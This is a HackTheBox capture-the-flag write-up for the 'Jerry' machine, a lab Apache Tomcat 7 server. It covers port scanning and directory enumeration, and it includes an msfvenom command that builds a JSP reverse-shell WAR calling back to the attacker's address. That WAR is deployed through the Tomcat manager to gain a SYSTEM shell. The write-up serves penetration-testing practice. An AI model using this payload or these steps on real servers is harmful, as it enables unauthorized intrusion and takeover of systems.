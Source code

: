 # HackTheBox - Jerry Writeup 6/11/2025

---

## 1. Scanning for open ports and services
 ```bash
sudo nmap -sV -sC 10.129.180.210
[sudo] password for ech0: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-11 22:01 EDT
Nmap scan report for 10.129.180.210
Host is up (1.4s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-title: Apache Tomcat/7.0.88
|_http-favicon: Apache Tomcat
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 187.44 seconds
```
---

## 2. Enumeration

After navigating to the webserver to verify that it was up, I used gobuster to look for hidden directories, the scan however did not complete before I cancelled it but some interesting directories did show up:

```bash
 gobuster dir -u http://10.129.180.210:8080 -w directory-list-2.3-medium.txt                         
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.129.180.210:8080
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/docs                 (Status: 302) [Size: 0] [--> /docs/]
/examples             (Status: 302) [Size: 0] [--> /examples/]
/manager              (Status: 302) [Size: 0] [--> /manager/]
/http%3A%2F%2Fwww     (Status: 400) [Size: 0]
```
I thought the /manager directory would give me some good info so I navigated to the directory

```bash
http://10.129.180.210/manager
```
I was prompt to sign in, not having any creds I closed the prompt and was redirected to this url
```bash
http://10.129.180.210/manager/status
```
Some important information was on this page, including credentials for signing in to the manager page.

---

## 3. Exploitation

I created a payload using msfvenom after going through the website and seeing that the .war extension was used for uploads. I did some addtional research online to see how to craft the payload.

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.29 lport=80 -f war -o revshell.war
Payload size: 1094 bytes
Final size of war file: 1094 bytes
Saved as: revshell.war
```                                                                                           

```bash
(ech0㉿kali)-[~]
└─$ ls
Desktop  Documents  Downloads  Music  Pictures  Public  revshell.war  SecLists-master  Templates  test.txt  Videos
```
After verifying the payload was made, I deployed it on the webserver manager and loaded Metasploit to catch the shell.

```bash
msfconsole
```

After setting my options I ran the exploit and caught a shell

```bash
:\apache-tomcat-7.0.88>whoami
whoami
nt authority\system

Directory of C:\Users\Administrator\Desktop

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:09 AM    <DIR>          flags
               0 File(s)              0 bytes
               3 Dir(s)   2,416,873,472 bytes free

C:\Users\Administrator\Desktop>  


C:\Users\Administrator\Desktop cd flags
 cd flags

C:\Users\Administrator\Desktop\flags>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 0834-6C04

 Directory of C:\Users\Administrator\Desktop\flags

06/19/2018  07:09 AM    <DIR>          .
06/19/2018  07:09 AM    <DIR>          ..
06/19/2018  07:11 AM                88 2 for the price of 1.txt
     

C:\Users\Administrator\Desktop\flags>type "2 for the price of 1.txt"
type "2 for the price of 1.txt"
user.txt
[User flag here]

root.txt
[Root flag here]
```

## References:
- https://www.ethicaltechsupport.com/blog-post/apache-tomcat-war-backdoor/

## Tools
- Nmap
- Gobuster
- Metasploit
